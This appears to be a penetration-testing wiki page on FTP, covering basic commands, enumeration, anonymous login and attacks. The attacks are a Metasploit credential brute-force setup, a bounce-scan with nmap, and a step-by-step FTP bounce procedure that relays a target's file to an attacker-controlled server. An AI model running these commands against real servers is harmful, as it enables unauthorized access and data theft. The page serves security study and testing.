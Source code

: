 # 🛠️ FTP

## Theory

The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of files between a client and server. It usually runs on ports 21/tcp or 2121/tcp.

## Basic usage

Standard UNIX-like commands, like `cd`, `ls`, `mkdir`, `rm` can be used. Here is a short list of some specific commands.

| Command | Description |
| -------- | --------------------------------- |
| `help` | display local help information |
| `get` | download file from remote server |
| `put` | upload file on the remote server |
| `ascii` | set the transfer type to "ASCII" |
| `binary` | set the transfer type to "Binary" |
| `close` | terminate FTP session |
| `bye` | terminate ftp session and exit |

> [!TIP]
> When downloading files, users should set the FTP client to "Binary" (`binary` command) in order to prevent files from becoming corrupted during transit.
> 
> Regular text file can be downloaded in the other mode : "ASCII" (`ascii` command)

> [!TIP]
> Hidden files can be listed with `ls -a`

## Enumeration

### Banner grabbing

Useful to get basic information about the FTP server such as its type and version.

```bash
telnet -vn $IP $PORT
```

### Accepted commands

The `HELP` and `FEAT` commands could give information about the FTP server such as the recognized commands and the extended features the server supports.

```
HELP
214-The following commands are recognized (* =>'s unimplemented):
214-CWD XCWD CDUP XCUP SMNT* QUIT PORT PASV 
214-EPRT EPSV ALLO* RNFR RNTO DELE MDTM RMD 
214-XRMD MKD XMKD PWD XPWD SIZE SYST HELP 
214-NOOP FEAT OPTS AUTH CCC* CONF* ENC* MIC* 
214-PBSZ PROT TYPE STRU MODE RETR STOR STOU 
214-APPE REST ABOR USER PASS ACCT* REIN* LIST 
214-NLST STAT SITE MLSD MLST 
214 Direct comments to root@drei.work
FEAT
211-Features:
 PROT
 CCC
 PBSZ
 AUTH TLS
 MFF modify;UNIX.group;UNIX.mode;
 REST STREAM
 MLST modify*;perm*;size*;type*;unique*;UNIX.group*;UNIX.mode*;UNIX.owner*;
 UTF8
 EPRT
 EPSV
 LANG en-US
 MDTM
 SSCN
 TVFS
 MFMT
 SIZE
211 End
```

### 🛠️ Files

[https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively](https://www.howtoforge.com/using-wget-with-ftp-to-download-move-web-sites-recursively)

## Connection

### Anonymous login

Some FTP servers are configured to let users connect anonymously and thus give them access to files on the servers without authentication.

```bash
$ ftp $IP $PORT
Name: anonymous
Password: 
ftp> ls -a # List all files (even hidden) (yes, they could be hidden)
ftp> ...
```

## Attacks

### Brute force

```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE $user.txt
set PASS_FILE $pass.txt
run
```

### FTP sniffing

If the FTP communications are not encrypted and if the attacker is on the same network of the client or the server he can sniff the data packet traveling between the client and the server in order to retrieve credential.

Several tools like `Wireshark` could be used to sniff TCP packets.

### FTP Bounce attacks

FTP Bounce attacks let an attacker requests access to ports by using the FTP command `PORT`. It's mostly used to make a port-scan without being detected (as you are not the one doing it, but the FTP server for you), for D.o.S. attacks, or to download files from another FTP server.

To check if the FTP server is vulnerable to Bounce attacks it is possible to use the tool `NMAP`.

> [!TIP]
> [https://nmap.org/nsedoc/scripts/ftp-bounce.html](https://nmap.org/nsedoc/scripts/ftp-bounce.html)

#### Scan the victim's network

If a FTP server is vulnerable to Bounce attacks, an attacker could use it to scan its network without being detected.

```bash
nmap -v -b -P0 'username':'password'@'ftp_server' 'address(es)_to_scan'
```

#### Download file/folder

If an attacker has access to a bounce FTP server, he can make it request files of other FTP server and download that file to his own server.

> [!CAUTION]
> Requirements:
> 
> * Valid credentials in the FTP intermediate server
> * Valid credentials in target FTP server
> * Both servers accept the PORT command
> * Write permissions in the intermediate server
> * Attacker's FTP server supports passive mode

#### Steps

* Connect to your own FTP server and make the connection passive to make it listen in a directory where the victim service will send the file.

```bash
#Start server + connection
service pure-ftpd start
ftp My_IP 21
ftp> USER my_own_username
#Enable passive mode
ftp> pasv
Entering Passive Mode (F,F,F,F,X,X) #Note the output (IP and port)
#Tells server to accept data and to store it into the dump file
ftp> stor dump
```

* Create the file to send to the intermediate server with the commands that the targeted server will have to execute. Let's call this file `instrs`.

```bash
user ftp # user and pass of the targeted server
pass -anonymous@
cwd /DIRECTORY
type i
port F,F,F,F,X,X #IP and port of the attacker
retr file.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

> [!TIP]
> The extra nulls at the end of the command file are to fill up the TCP windows and ensure that the command connection stays open long enough for the whole session to be executed.

* Upload this file on the intermediate server, then upload it from the intermediate server to the targeted server and __make the targeted machine execute this file. 

```bash
#Run these commands on the intermediate server
put instrs
quote "port C,C,C,C,0,21" #IP of the targeted server
quote "retr instrs"
```

* The attacker should have received on his server the file 'file.tar.Z' renamed as 'dump'. 

## Resources

[https://book.hacktricks.xyz/pentesting/pentesting-ftp](https://book.hacktricks.xyz/pentesting/pentesting-ftp)

[https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b](https://shahmeeramir.com/penetration-testing-of-an-ftp-server-19afe538be4b)

[https://www.thesecuritybuddy.com/vulnerabilities/what-is-ftp-bounce-attack/](https://www.thesecuritybuddy.com/vulnerabilities/what-is-ftp-bounce-attack/)

[https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands](https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands)
